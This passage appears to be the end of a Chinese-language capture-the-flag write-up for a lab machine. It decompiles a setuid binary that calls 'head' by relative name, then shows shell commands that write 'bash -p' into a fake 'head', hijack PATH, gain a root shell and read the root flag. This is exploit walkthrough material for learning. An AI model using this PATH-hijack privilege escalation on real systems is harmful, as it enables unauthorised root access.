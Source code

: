 将两个程序都下载到本地进行分析

## 程序逆向分析

### PMCEmployees

对程序进行反编译

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  setuid(0);
  printf("Showing top 10 best employees of PMC company");
  return system("head /home/pmccentral/documents/employees.txt");
}
```

并且可以注意到 `/home/laboratoryadmin/autoScripts/head` 这个文件是可控的，那么就可以直接接管权限了

### head 文件分析

```plaintext title="/home/laboratoryadmin/autoScripts/head"
bash -p
```

:::note

好奇怪，这个靶机的作者这是直接把提权方案直接往嘴巴里面喂？

:::

## User - root

:::note

下面的方案暴力修改了 PATH 环境变量，不建议使用此方案

:::

```shell
laboratoryadmin@laboratoryuser:~/autoScripts$ echo '/usr/bin/bash -p' > head
laboratoryadmin@laboratoryuser:~/autoScripts$ export PATH=/home/laboratoryadmin/autoScripts
laboratoryadmin@laboratoryuser:~/autoScripts$ ./PMCEmployees
root@laboratoryuser:~/autoScripts# /usr/bin/whoami
root
```

:::note

建议使用此方案

:::

```shell
(remote) laboratoryadmin@laboratoryuser:/home/laboratoryadmin/autoScripts$ export PATH=/home/laboratoryadmin/autoScripts:$PATH
(remote) laboratoryadmin@laboratoryuser:/home/laboratoryadmin/autoScripts$ ./PMCEmployees
root@laboratoryuser:~/autoScripts# whoami
root
```

### flag - root

```shell
root@laboratoryuser:/root# cat root.txt
flag{r00t_t3ns0}
```
